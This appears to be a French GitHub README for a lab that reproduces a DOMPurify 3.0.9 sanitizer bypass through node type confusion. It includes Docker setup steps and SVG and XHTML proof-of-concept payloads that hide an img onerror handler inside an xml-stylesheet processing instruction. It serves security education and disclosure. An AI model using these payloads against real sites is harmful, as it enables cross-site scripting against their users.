 # Dompurify 3.0.9 bypass - Node type confusion

## Lien vers l'article complet

> Un article reprenant le travail de slonser concernant le bypass de Dompurify dans sa version 3.0.9.

[https://sharpforce.gitbook.io/cybersecurity/mes-articles/2024/mai/dompurify-3.0.9-bypass-node-type-confusion](https://sharpforce.gitbook.io/cybersecurity/mes-articles/2024/mai/dompurify-3.0.9-bypass-node-type-confusion)

## Installation

```
docker build -t dompurify-3.0.9-bypass .
docker run -p 3000:3000 --name dompurify-3.0.9-bypass dompurify-3.0.9-bypass
```

![image](https://github.com/Sharpforce/cybersecurity-code/assets/6013418/75be9d65-91ce-4fc4-b561-9c6be3699627)

## Description

L'application permet de téléverser des fichiers au format HTML, SVG ou XHTML, mais la consultation de ces fichiers, bien que possible, est restreinte par une politique CSP. L'inclusion d'un tel fichier, assainie par Dompurify, au sein de la page principale, permet toutefois l'exploitation du bypass et l'exécution de code Javascript.

## Exploitation

### Fichier HTML

La vulnérabilité est exploitable seulement lorsque le noeud est de type XML. L'inclusion d'un fichier HTML permet de confirmer le bon assainissement de la part de Dompurify lorsque le noeud est de type HTML.

### Fichier SVG

Le fichier SVG suivant permet l'exploitation du bypass :
```SVG
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.0//EN" "http://www.w3.org/TR/2001/REC-SVG-20010904/DTD/svg10.dtd">
<svg xmlns="http://www.w3.org/2000/svg" width="100" height="100" viewBox="0 0 100 100">
  <rect width="50" height="50" fill="green" />
  <?xml-stylesheet > <img src=x onerror="alert(1)"> ?>
</svg>
```

### Fichier XHTML

Le fichier XHTML suivant permet l'exploitation du bypass :
```HTML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
    <title>Exemple de document XHTML</title>
</head>
<body>
    <h1>Document XHTML</h1>
    <p>Exploitation de Dompurify 3.0.9.</p>
    <?xml-stylesheet > <img src=x onerror="alert(1)"> ?>
</body>
</html>
```

## Démo

![](https://github.com/Sharpforce/cybersecurity-code/blob/main/dompurify-3.0.9-bypass-node-type-confusion/demo/demo.gif)

## Disclaimer

Cet outil est destiné uniquement à des fins éducatives et doit être utilisé uniquement dans des environnements de tests de pénétration autorisés. L'accès ou l'utilisation non autorisés de systèmes que vous ne possédez pas est illégal. L'auteur n'est pas responsable de toute utilisation abusive de cet outil.

## License

Ce projet est sous licence MIT.